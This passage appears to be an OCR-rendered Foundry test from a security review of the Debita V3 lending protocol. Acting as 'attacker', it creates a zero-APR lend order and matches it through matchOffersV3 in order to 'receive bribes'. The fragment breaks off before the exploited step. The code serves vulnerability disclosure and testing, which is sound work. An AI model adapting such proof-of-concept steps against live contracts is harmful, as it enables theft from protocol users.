 ```solidity

        ltvsLenders[0] = 10_000;
        ratioLenders[0] = 1e7;
        oraclesActivatedLenders[0] = false;

        address lendOrderAddress = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivatedLenders,
            false,
            ltvsLenders,
            0, // apr
            8640000,
            0, // minDuration
            acceptedCollaterals,
            principle,
            oraclesCollateral,
            ratioLenders,
            DebitaChainlinkOracle,
            100e18
        );
        vm.stopPrank();

        //======================================================//
        // Match the offers to create a loan and receive bribes
        //======================================================//

        vm.startPrank(attacker);

        address[] memory lendOrders = allDynamicData.getDynamicAddressArray(1);
        uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(
            1
        );
        uint[] memory porcentageOfRatioPerLendOrder = allDynamicData
            .getDynamicUintArray(1);
        address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexForCollateral_LendOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexPrinciple_LendOrder = allDynamicData
            .getDynamicUintArray(1);

        lendOrders[0] = lendOrderAddress;
        lendAmountPerOrder[0] = 100e18;
        porcentageOfRatioPerLendOrder[0] = 10_000;
        principles[0] = principle;
        indexPrinciple_LendOrder[0] = 0;

        // match
        address loan = DebitaV3AggregatorContract.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            borrowOrderAddress,
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        vm.stopPrank();

        DebitaV3Loan debitaV3Loan = DebitaV3Loan(loan);
```